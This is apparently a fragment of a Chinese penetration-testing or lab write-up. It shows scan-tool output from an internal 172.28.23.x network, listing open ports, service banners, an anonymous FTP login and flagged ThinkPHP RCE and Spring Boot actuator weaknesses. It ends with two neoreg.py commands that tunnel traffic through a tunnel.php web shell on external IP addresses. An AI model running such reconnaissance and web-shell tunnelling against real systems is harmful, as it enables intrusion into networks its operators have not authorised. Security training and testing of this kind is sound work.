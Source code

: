 ```dockerfile
[2025-03-08 20:54:32] [SUCCESS] 端口开放 172.28.23.26:21
[2025-03-08 20:54:32] [SUCCESS] 端口开放 172.28.23.17:22
[2025-03-08 20:54:32] [SUCCESS] 端口开放 172.28.23.26:80
[2025-03-08 20:54:32] [SUCCESS] 端口开放 172.28.23.33:8080
[2025-03-08 20:54:32] [SUCCESS] 端口开放 172.28.23.17:8080
[2025-03-08 20:54:32] [SUCCESS] 服务识别 172.28.23.33:22 => [ssh] 版本:8.2p1 Ubuntu 4ubuntu0.10 产品:OpenSSH 系统:Linux 信息:Ubuntu Linux; protocol 2.0 Banner:[SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.10.]
[2025-03-08 20:54:32] [SUCCESS] 服务识别 172.28.23.26:22 => [ssh] 版本:7.2p2 Ubuntu 4ubuntu2.10 产品:OpenSSH 系统:Linux 信息:Ubuntu Linux; protocol 2.0 Banner:[SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.10.]
[2025-03-08 20:54:32] [SUCCESS] 服务识别 172.28.23.26:21 => [ftp] 版本:3.0.3 产品:vsftpd 系统:Unix Banner:[220 (vsFTPd 3.0.3).]
[2025-03-08 20:54:32] [SUCCESS] 服务识别 172.28.23.17:22 => [ssh] 版本:8.2p1 Ubuntu 4ubuntu0.7 产品:OpenSSH 系统:Linux 信息:Ubuntu Linux; protocol 2.0 Banner:[SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.7.]
[2025-03-08 20:54:37] [SUCCESS] 服务识别 172.28.23.17:8080 => [http]
[2025-03-08 20:54:37] [SUCCESS] 服务识别 172.28.23.33:8080 => [http]
[2025-03-08 20:54:38] [SUCCESS] 服务识别 172.28.23.17:80 => [http]
[2025-03-08 20:54:38] [SUCCESS] 服务识别 172.28.23.26:80 => [http]
[2025-03-08 20:54:38] [INFO] 存活端口数量: 8
[2025-03-08 20:54:38] [INFO] 开始漏洞扫描
[2025-03-08 20:54:38] [INFO] 加载的插件: ftp, ssh, webpoc, webtitle
[2025-03-08 20:54:38] [SUCCESS] 网站标题 http://172.28.23.17       状态码:200 长度:10887  标题:""
[2025-03-08 20:54:38] [SUCCESS] 网站标题 http://172.28.23.17:8080  状态码:200 长度:1027   标题:Login Form
[2025-03-08 20:54:38] [SUCCESS] 网站标题 http://172.28.23.26       状态码:200 长度:13693  标题:新翔OA管理系统-OA管理平台联系电话：13849422648微信同号，QQ958756413
[2025-03-08 20:54:38] [SUCCESS] 网站标题 http://172.28.23.33:8080  状态码:302 长度:0      标题:无标题 重定向地址: http://172.28.23.33:8080/login;jsessionid=C0147F5D5100AFE63969477D86B84D8F
[2025-03-08 20:54:38] [SUCCESS] 匿名登录成功!
[2025-03-08 20:54:39] [SUCCESS] 网站标题 http://172.28.23.33:8080/login;jsessionid=C0147F5D5100AFE63969477D86B84D8F 状态码:200 长度:3860   标题:智联科技 ERP 后台登陆
[2025-03-08 20:54:39] [SUCCESS] 目标: http://172.28.23.17:8080
  漏洞类型: poc-yaml-thinkphp5023-method-rce
  漏洞名称: poc1
  详细信息:
	links:https://github.com/vulhub/vulhub/tree/master/thinkphp/5.0.23-rce
[2025-03-08 20:54:40] [SUCCESS] 目标: http://172.28.23.33:8080
  漏洞类型: poc-yaml-spring-actuator-heapdump-file
  漏洞名称: 
  详细信息:
	author:AgeloVito
	links:https://www.cnblogs.com/wyb628/p/8567610.html
[2025-03-08 20:54:40] [SUCCESS] 目标: http://172.28.23.33:8080
  漏洞类型: poc-yaml-springboot-env-unauth
  漏洞名称: spring2
  详细信息:
	links:https://github.com/LandGrey/SpringBootVulExploit

```

然后将流量代理出来

```dockerfile
python neoreg.py -k shell -p 8888 -u http://8.130.71.207:8080/tunnel.php
python3 neoreg.py -k shell -u http://39.101.64.150:8080/tunnel.php
```
